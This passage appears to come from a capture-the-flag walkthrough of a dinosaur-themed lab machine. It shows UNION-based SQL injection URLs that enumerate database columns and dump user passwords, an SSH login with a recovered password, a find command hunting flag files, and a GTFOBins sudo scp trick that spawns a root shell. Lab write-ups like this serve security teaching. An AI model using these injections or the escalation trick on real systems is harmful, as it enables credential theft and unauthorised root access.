 
**Get column names names from database park and table user**\
The SQL command we are looking to perform is:
```sql
SELECT COLUMN_NAME
  FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_SCHEMA = 'my_database' AND TABLE_NAME = 'my_table';
```

This gives us the following URL to try:\
- /item.php?id=100 UNION select NULL, NULL, NULL, group_concat(column_name), NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = "park" AND TABLE_NAME = "users"

IMAGE SQLI USER TABLE

So now we have columns id, username, password

**Get Dennis' password from User table**\
The SQL command we are looking to perform is:
```SQL
select password from users where username = "dennis"
```
However, we know from our enumeration that "username" is not allowed. My first thought was to check how many passwords there are before trying to bypass this filter so I used the following request to get all the passwords:

/item.php?id=100 UNION SELECT NULL, NULL, NULL, group_concat(password) , NULL from users

This returns only two unique passwords:

IMAGE SQLI PASSWORDS

# 3. Post Compromise Enumeration
Now that we have two passwords we can try to logon to the system using SSH and the username dennis. I tried the password "ih8dinos" first and successfully logged in where we find the first flag

IMAGE SSH FLAG 1

I ran a find command using the parameter -iname to make the search **case insensitive** picking up the next challenge flag

```bash
find / -type f -iname "flag*" 2>/dev/null
```

IMAGE SSH FLAG 2

# 4. Privilege Escalation
I ran `sudo -l` to check if Dennis could run any command as sudo

IMAGE PRIV ESC SUDO

https://gtfobins.github.io/gtfobins/scp/#sudo

``` bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```
